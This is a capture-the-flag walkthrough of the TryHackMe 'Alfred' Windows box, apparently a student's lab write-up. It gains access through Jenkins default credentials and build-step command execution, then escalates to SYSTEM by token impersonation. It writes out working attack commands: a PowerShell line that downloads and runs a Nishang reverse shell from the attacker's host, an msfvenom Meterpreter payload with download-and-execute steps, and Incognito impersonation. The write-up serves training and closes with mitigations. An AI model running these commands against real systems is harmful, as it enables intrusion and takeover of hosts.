








# TryHackMe - Alfred

## Overview

Full walkthrough of the TryHackMe Alfred Windows box, gaining initial access by logging into a Jenkins CI/CD server with default `admin:admin` credentials and abusing the Execute Windows batch command build step to land a Nishang PowerShell reverse shell as `alfred\bruce`, then upgrading to a Meterpreter session and abusing `SeImpersonatePrivilege` via the Incognito module to impersonate the `BUILTIN\Administrators` token and escalate to `NT AUTHORITY\SYSTEM`.

**Platform:** TryHackMe | **Room:** Alfred | **Difficulty:** Easy

**Attacker:** Kali Linux | **Target:** 10.65.184.3 | **OS:** Windows (ALFRED)

**Techniques Covered:**

Jenkins Default Credentials → RCE via Build Step → Nishang PowerShell Reverse Shell → Meterpreter Shell Upgrade → SeImpersonatePrivilege → Token Impersonation → SYSTEM

---

## 1. Enumeration

An Nmap scan with `-Pn` was required as the target does not respond to ICMP ping probes. Three open TCP ports were identified: port 80 (Microsoft IIS), port 3389 (RDP), and port 8080 (Jetty — Jenkins).

```bash
nmap -p- -Pn --min-rate 5000 -sC -sV -oN alfred-full.txt 10.65.184.3
```



---

## 2. Jenkins Login — Default Credentials

Navigating to port 8080 revealed a Jenkins login panel. Default credentials `admin:admin` were accepted, granting full access to the Jenkins dashboard.

```
http://10.65.184.3:8080
Username: admin
Password: admin
```





---

## 3. Remote Code Execution via Build Step

Inside the existing `project` job, the Configure menu exposed a **Build** section with an **Execute Windows batch command** step. This feature allows arbitrary system commands to be run on the underlying Windows host as part of a Jenkins build job.



---

## 4. Nishang PowerShell Reverse Shell

The Nishang toolkit was cloned to Kali and `Invoke-PowerShellTcp.ps1` was modified to auto-execute on download by appending the invocation line to the bottom of the script.

```bash
git clone https://github.com/samratashok/nishang
cd nishang/Shells/
nano Invoke-PowerShellTcp.ps1
# Add to bottom of file:
# Invoke-PowerShellTcp -Reverse -IPAddress 192.168.203.76 -Port 4444
```

A Python HTTP server was started to serve the script, and a netcat listener was set up to catch the shell.

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

The following payload was placed in the Jenkins batch command box and the job was built:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.203.76:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.203.76 -Port 4444
```

A shell was caught as `alfred\bruce`.



---

## 5. Meterpreter Shell Upgrade

To prepare for token impersonation, the shell was upgraded to a Meterpreter session. An encoded x86 reverse TCP payload was generated with msfvenom.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=192.168.203.76 LPORT=4445 -f exe -o shell.exe
```

A Metasploit handler was configured to receive the connection:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.203.76
set LPORT 4445
run
```

The payload was downloaded and executed from the existing PowerShell shell:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://192.168.203.76:8000/shell.exe','shell.exe')"
Start-Process "shell.exe"
```

A Meterpreter session opened successfully.

---

## 6. Privilege Escalation — Token Impersonation

Checking privileges confirmed `SeImpersonatePrivilege` and `SeDebugPrivilege` were enabled on the `alfred\bruce` account.

```
shell
whoami /priv
exit
```

The Incognito module was loaded in Meterpreter to exploit token impersonation:

```
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```

The `BUILTIN\Administrators` delegation token was available and successfully impersonated, elevating to `NT AUTHORITY\SYSTEM`.



To solidify access, the process was migrated to `services.exe`:

```
ps
migrate <PID of services.exe>
```

---

## 7. Root Flag

```
cat "C:/Windows/System32/config/root.txt"
```



---

## 8. Room Completed



---

## Findings Summary

| Step | Vulnerability | Result |
|------|--------------|--------|
| Enumeration | Jenkins exposed on port 8080 | Attack surface identified |
| Initial Access | Default credentials (admin:admin) | Full Jenkins dashboard access |
| RCE | Build step command execution | Arbitrary commands on host |
| Foothold | Nishang PowerShell reverse shell | Shell as alfred\bruce |
| Shell Upgrade | msfvenom Meterpreter payload | Stable Meterpreter session |
| PrivEsc | SeImpersonatePrivilege + token impersonation | NT AUTHORITY\SYSTEM |

---

## Recommended Mitigations

- Change Jenkins default credentials immediately after installation
- Restrict Jenkins access to internal networks only — never expose to the internet
- Run Jenkins as a low-privilege service account, never as SYSTEM
- Audit and restrict user token privileges — SeImpersonatePrivilege should not be assigned to non-service accounts
- Monitor for suspicious PowerShell execution, especially DownloadString patterns
- Implement application whitelisting to prevent unauthorized executable downloads

---

## Skills Demonstrated

- Windows Enumeration with Nmap (-Pn for ICMP-blocked hosts)
- Jenkins Misconfiguration Exploitation
- PowerShell Reverse Shell Delivery (Nishang)
- Meterpreter Shell Generation and Handling (msfvenom, Metasploit)
- Windows Privilege Enumeration (whoami /priv)
- Token Impersonation via Incognito Module (SeImpersonatePrivilege)
- Process Migration for Privilege Solidification